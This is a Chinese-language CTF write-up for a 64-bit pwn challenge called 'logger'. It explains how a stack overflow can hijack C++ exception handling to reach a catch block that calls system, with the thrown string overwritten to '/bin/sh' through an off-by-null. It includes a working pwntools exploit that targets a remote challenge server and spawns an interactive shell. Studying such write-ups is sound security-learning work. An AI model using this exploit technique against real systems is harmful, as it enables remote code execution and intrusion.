


# logger

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |yes   |

## 解题思路

在`warn`函数中如果栈溢出会抛出`"Buffer Overflow"`，以`char *`丢出来。查看got，
发现有`system`函数，看到有catch块调用了`system`，catch类型是`const char *`。



由于`char *`可以cast到`const char *`，因此我们如果能跳转到这个地方，就有机会执行命令。

在`warn`函数中，通过栈溢出，我们能够控制rbp和ret addr，而C++正是利用了返回地址来判断被谁catch，
具体可以看[这篇文章](https://xz.aliyun.com/t/12967)。因此，
如果我们能把返回地址修改为`0x401bc2 + 1`，就可以被`0x401bc7`块catch。经调试，
跳转过去后，rdx为1，会跳过`_Unwind_Resume`，并且rdi为"Buffer Overflow"的地址。
最后我们只需要把这个字符串改成"/bin/sh"就可以拿shell了。

`trace`函数可以修改`record`字符串数组，只要字符串首字符为`'\0'`就能覆写字符串，
并且存在off-by-null，而"Buffer Overflow"是最后一个字符串，因此写满倒数第二个字符串，
就可以覆写最后一个字符串。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './logger'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b __cxa_throw')
    else:
        sh = remote('139.155.126.78', 35333)
    elf = ELF(EXE)

    def trace(tosend: bytes):
        sh.sendlineafter(b'****************', b'1')
        sh.sendafter(b'details', tosend)
        sh.sendlineafter(b'check', b'n')

    def warn(tosend: bytes):
        sh.sendlineafter(b'****************', b'2')
        sh.sendafter(b'message', tosend)

    for _ in range(7):
        trace(b'skip')
    trace(b'fillfillfillfill') # clear 'B' in "Buffer Overflow"
    trace(b'/bin/sh'.ljust(0xf, b'\0'))
    warn(b'0'*0x70 + p64(0x404800) + p64(0x401bc3))

    sh.clean()
    sh.interactive()
```



## 参考

[溢出漏洞在异常处理中的攻击利用手法-上](https://xz.aliyun.com/t/12967)
